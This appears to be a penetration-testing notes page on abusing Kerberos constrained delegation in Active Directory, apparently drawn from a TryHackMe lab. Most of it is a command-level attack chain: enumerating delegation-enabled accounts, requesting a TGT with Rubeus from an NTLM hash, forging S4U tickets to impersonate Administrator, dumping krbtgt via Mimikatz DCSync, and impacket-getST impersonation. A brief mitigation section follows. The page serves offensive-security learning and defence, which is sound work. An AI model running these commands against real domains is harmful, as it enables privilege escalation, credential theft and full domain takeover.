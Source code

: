 # Kerberos Constrained Delegation

### User Account <a href="#user-account" id="user-account"></a>

#### Prerequisites <a href="#prerequisites" id="prerequisites"></a>

Hunting for user accounts that have kerberos-constrained delegation enabled:

{% code title="" %}
```bash
Get-NetUser -TrustedToAuth
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

In the below screenshot, the user `spot` is allowed to delegate or in other words, impersonate any user and authenticate to a file system service (CIFS) on a domain controller DC01.

User has to have an attribute `TRUSTED_TO_AUTH_FOR_DELEGATION` in order for it to be able to authenticate to the remote service.

> TRUSTED\_TO\_AUTH\_FOR\_DELEGATION - (Windows 2000/Windows Server 2003) The account is enabled for delegation. This is a security-sensitive setting. Accounts that have this option enabled should be tightly controlled. This setting lets a service that runs under the account assume a client's identity and authenticate as that user to other remote servers on the network.
>
> [https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties](https://support.microsoft.com/en-gb/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties)
>
>

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
rubeus.exe asktgt /user:userName /domain:DomainName /ntlm:Hash /outfile:FileName.tgt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
.\Rubeus.exe s4u /ticket:TGT_Ticket /msdsspn:"service/HOST" /impersonateuser:Administrator /ptt
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```bison
invoke-Mimikatz -command '"lsadump::dcsync /user:abdo\krbtgt "'
```

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
impacket-getST   -k -impersonate administrator -spn cifs/HayStack.thm.corp -dc-ip 10.10.43.21 thm.corp/DARLA_WINTERS
```
{% endcode %}

## Mitigation <a href="#id-660b" id="id-660b"></a>

* To mitigate against the abuse of delegated accounts, we can ensure that the privileged accounts are configured to “_Account is sensitive and cannot be delegated”_ within the Active Directory or added to the Protected User group to prevent delegation.
* If delegation is needed for specific accounts, they should be secured with firewall rules that only serve the purpose and delegation to the required service and limit any other privileged access that might not be necessary.
* Also, ensure the delegated accounts use strong passwords to protect them against attacks like Kerberoasting.

## 📚**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-constrained-delegation-overview?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://stealthbits.com/blog/what-is-kerberos-delegation-an-overview-of-kerberos-delegation/?source=post_page-----4a0eddc5bb13--------------------------------" %}

{% embed url="https://www.cyberark.com/resources/threat-research-blog/weakness-within-kerberos-delegation?source=post_page-----4a0eddc5bb13--------------------------------" %}
